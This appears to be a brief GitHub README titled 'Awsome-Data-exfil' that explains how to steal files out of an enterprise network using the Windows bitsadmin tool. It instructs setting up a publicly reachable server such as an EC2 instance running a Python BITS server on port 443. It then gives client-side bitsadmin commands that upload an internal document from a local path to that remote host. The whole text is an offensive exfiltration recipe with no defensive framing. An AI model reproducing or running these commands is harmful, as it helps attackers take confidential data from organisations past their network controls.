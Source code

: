 # Awsome-Data-exfil
Data exfiltration with Bitsadmin.exe

############################################################################


Bitsadmin command to exfiltrate internal data outside the enterprise network

--------------------------------Server-side----------------------------------------------


First things first: Set up an EC2 instance or any server which is  publicly accessible on which python should be installed. Dowmload the python implementation of bitsadmin server.
Host the server on the EC2 instance with command like <python simplebitsServer.py 443>


--------------------------------Client-side----------------------------------------------


bitsadmin /setproxysettings Job PRECONFIG

Bitsadmin /Transfer JOB /PRIORITY HIGH /UPLOAD hxxp://<remoteIP/URL>:<port> C:\User\<path to internal document to exfiltrate>
